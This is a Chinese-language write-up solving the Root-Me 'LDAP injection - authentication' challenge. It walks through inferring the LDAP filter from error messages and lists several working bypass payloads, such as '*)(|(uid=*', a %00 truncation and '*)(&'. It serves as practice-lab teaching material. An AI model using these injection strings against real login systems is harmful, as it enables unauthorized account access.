

Root-Me [LDAP injection - authentication](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-authentication?lang=en)
===

簡單的登入頁面。

## 解題關鍵
1. LDAP

## 提示訊息
```
Bypass authentication mecanism.
```

## 解題方法
首先 LDAP 是 Lightweight Directory Access Protocol 的縮寫，中文意思是輕型目錄存取協定，閱讀有關 LDAP 的文件後，嘗試丟個注入的語法 `admin)(&)` 隨後出現下方的訊息。  

  

顯然是有奏效的，只是執行上發生錯誤，所以開始理解該用什麼方法注入才能奏效，透過錯誤訊息的透漏，已經可以知道語法大致上長成 `(&(uid={})(userPassword={}))` 並且是 `uid = {} and userPassword = {}` 的意思。  

換成 OR 其實也是一樣的意思，可以嘗試跳脫第一個 `uid` 條件，並且奏合 `userPassword`。

```
uid: admin)(| (uid=admin
password: 123456)
(&(uid=admin)(| (uid=admin)(userPassword=123456)))
```

但回應變成了 `unknown identifiers`，應該是 `uid` 猜錯，是了老半天 `admin`、`administrator` 都沒辦法成功，最後是使用 `*`，在 LDAP 中 `*` 會被轉譯成類似 `LIKE "*"` 的語法。  

```
uid: *)(|(uid=*
password: 123456)

(&(uid=*)(| (uid=*)(userPassword=123456)))
```

登入後發現，原來帳號是 `ch25`，也就是題號，查看原始碼，檢視密碼欄位，解決該題。

  


## Other Write-up
隨後參考別人的 Wirte-up，發現還有更簡單的方式。

### %00
透過 `%00` 來截斷 `uid` 與 `password` 的 `&`。  
```
uid: *))
password: 123456

(&(uid=*))%00(userPassword=123456))
```

### *)(&
這個方法更巧妙了，直接透過 `*` 的方法，並且使用 `(&)` 永真的選項解題。  
```
uid: *)(&
password: *)(&

(&(uid=*)(&)(userPassword=*)(&))
```

## Reference
http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Blackhat%20Europe%202008%20%20-%20LDAP%20Injection%20&%20Blind%20LDAP%20Injection.pdf  

## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)